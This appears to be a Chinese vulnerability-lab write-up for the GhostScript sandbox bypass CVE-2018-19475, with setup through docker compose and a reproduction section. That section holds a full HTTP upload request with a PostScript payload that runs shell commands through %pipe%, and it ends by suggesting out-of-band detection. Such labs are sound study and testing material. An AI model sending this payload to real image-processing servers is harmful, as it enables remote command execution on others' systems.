

GhostScript 沙箱绕过命令执行漏洞（CVE-2018-19475）¶
GhostScript 是一套基于 Adobe Systems 的 PostScript 和 PDF 页面描述语言解释器的软件。它被许多图像处理库广泛使用。
2018年底，来自 Semmle Security Research Team 的 Man Yue Mo 发表了 CVE-2018-16509 漏洞的变体 CVE-2018-19475。该漏洞允许攻击者通过恶意图片绕过 GhostScript 的沙箱，进而在 9.26 以前版本的 gs 中执行任意命令。
参考链接：
- https://blog.semmle.com/ghostscript-CVE-2018-19475/
- https://bugs.ghostscript.com/show_bug.cgi?id=700153
环境搭建¶
执行如下命令启动漏洞环境（其中包括 GhostScript 9.25 和 ImageMagick 7.0.8-20）：
docker compose up -d
环境启动后，访问 http://your-ip:8080 将看到一个文件上传组件。
漏洞复现¶
将 POC 作为图片上传，执行命令 id > /tmp/success && cat /tmp/success：
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279
------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"
%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--
可见，命令将被成功执行。

在实际环境中，由于通常无法直接看到命令执行结果，你可能需要使用带外攻击技术来检测漏洞。